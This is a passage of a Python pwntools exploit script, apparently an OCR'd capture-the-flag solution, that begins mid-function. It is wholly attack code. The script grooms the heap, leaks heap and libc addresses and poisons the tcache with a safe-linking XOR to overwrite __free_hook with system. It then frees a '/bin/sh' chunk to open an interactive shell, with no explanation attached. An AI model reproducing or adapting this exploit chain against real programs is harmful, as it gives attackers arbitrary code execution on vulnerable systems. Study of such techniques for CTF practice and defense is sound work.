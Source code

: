 ```python
    p.sendline(str(num))

heap_base=0
pause()

make(240,"a")
delete()
payload = b'a'*720
payload +=p64(0x401)*6
make(768,payload)
delete()
make(80,"a")
delete()
make(16,"a")
delete()
make(272,"a")
make(64,"a")
delete()
make(32,"a")
delete()
make(720,p64(0x11)*90)
make(712,p64(0x11)*89)
bug(1312)
delete()
#======================heap leak
make(1008,"a"*32)
a=rd(32)
a=u64(a.rstrip().ljust(8,b"\x00"))
heap_base=a<<12
b=a
delete()
make(1008,b"b"*(0x18)+p64(0x61)+p64(a)+b'b'*0x50+p64(0x491)+p64(a)+b"b"*(0x10)+p64(0x121)+p64(a)+b'b'*0x110+p64(0xc1)+b"b"*0x48+p64(0x311))
delete()
make(16,"a")
delete()
make(1008,b"a"*0x80)
#===================libc_leak
a=rd(0x80)
a=u64(a.rstrip().ljust(8,b"\x00"))
main_arena = a-96
libc.address=main_arena - (libc.symbols["__malloc_hook"]+0x10)
print(hex(libc.address))
delete()
make(1008,b"a"*0x18 + p64(0x61)+p64(b)+b"a"*0x50 + p64(0x491))
delete()

make(0x20,"a")
delete()
make(0x40,"a")
delete()

free_hook = libc.symbols["__free_hook"]
print(hex(free_hook))
system_addr=libc.symbols["system"]
make(0xb0,b"d"*0x50+p64(free_hook^(b)))
make(0x300,"a")
make(0x300,p64(system_addr))
make(0x20,b"/bin/sh\x00")
delete()

pause()
p.interactive()
```